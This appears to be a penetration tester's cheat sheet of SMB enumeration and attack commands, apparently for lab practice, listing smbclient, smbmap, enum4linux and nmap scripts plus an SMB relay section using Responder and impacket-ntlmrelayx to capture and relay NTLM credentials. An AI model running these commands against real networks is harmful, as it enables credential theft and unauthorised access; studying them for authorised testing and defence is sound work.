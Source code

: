 ```
smbclient -L \\\\$IP\\
```

```
smbclient -L //dc1.scrm.local
```

```
smbclient -U ksimpson -L //dc1.scrm.local
```

```
smbclient \\\\$IP\\DIRECTORY
```

```
smbclient -L //$DomainIP -U $DomainName/$DomainUsername
```

```
smbclient -L //$DomainIP/DIRECTORY -U $DomainName/$DomainUsername
```

/etc/samba/smb.conf

```
searchsploit Samba 2
```

```
smbmap -H $ip -u 'anonymous' -p 'anonymous'
```

```
enum4linux -a -u "<username>" -p "<passwd>" <IP>
```

```
smbclient //$ip/directory -U '<username>'
```

## SMB Relay Attack

```
nmap --script=smb2-security-mode.nse -p445 $IP
```

```
sudo responder -I eth1 -dwPv
```

![](Pasted%20image%2020231021151759.png)

```
impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami"
```

```
sudo nmap --script smb-enum-shares -p445 10.129.200.70
```

```
sudo nmap -sU -sS --script smb-enum-shares.nse -p U:137,T:139 10.129.200.70
```

```
sudo nmap -p139 --script smb-protocols 10.129.200.70
```

```
sudo nmap -p445 --script smb-protocols 10.129.200.70
```

```
nmap --script=smb-protocols -p139,445 --open --reason -sV -Pn
nmap --script=smb-protocols -p445 --open --reason -sV -Pn
nmap --script=smb-protocols -p139 --open --reason -sV -Pn
```


